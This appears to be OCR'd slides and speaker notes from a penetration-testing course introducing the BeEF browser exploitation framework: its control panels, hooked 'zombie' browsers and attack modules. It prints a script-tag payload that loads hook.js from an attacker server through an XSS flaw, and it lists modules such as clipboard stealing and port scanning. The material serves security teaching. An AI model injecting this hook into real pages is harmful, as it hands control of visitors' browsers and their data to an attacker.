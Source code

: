 
- Works on the victim
- Works but may be visible
- Not Confirmed to work
- Doesn't work



Note:



The BeEF interface is controlled via web interface.  This interface provides a series of panels to interact with the pieces we need for our exploitation.

The first panel is a list of the zombie browser, both the ones offline and online.  For the offline ones, BeEF will cache the commands and issue them when the browser reconnects!

The next panel is a list of modules available.  Each module is color coded based on the zombie selected.  This color coding signifies the reliability and functionality of the module against that target.  When we select a module, the panels to the right will list the description and the configuration options.  We can then press the execute button to send the command to the browser victim.



---



Zombie Control


- Uses hook.js to hook the browser
	<script src=http://beefserver:3000/hook.js></script>
- Inject this script via an XSS attack
	- It is the payload of the exploit
- This file connects the victim to  the BeEF controller
	- The BeEF controller changes the JS based on commands issued
- We then use the various modules to control the zombie
	- Or redirect the victim to a Metasploit server

Note:

82




When we want to use BeEF to control a zombie browser, we inject the hook.js file via an XSS flaw.  When the victim loads the page with the exploit, their browser is connected back to the BeEF controller.  The pentester can then issue commands back to the victim browser.  This is done through the hook.js file, which is changed based on the commands we want to send.

---



BeEF Functionality


- BeEF contains a number of modules to modules
	- These modules provide the various attacks against the zombie machines 
- Multiple modules available:
	- Clipboard Stealing
	- History Browsing
	- Port Scanning
	- Browser Exploits
	- Inter-Protocol Exploitation
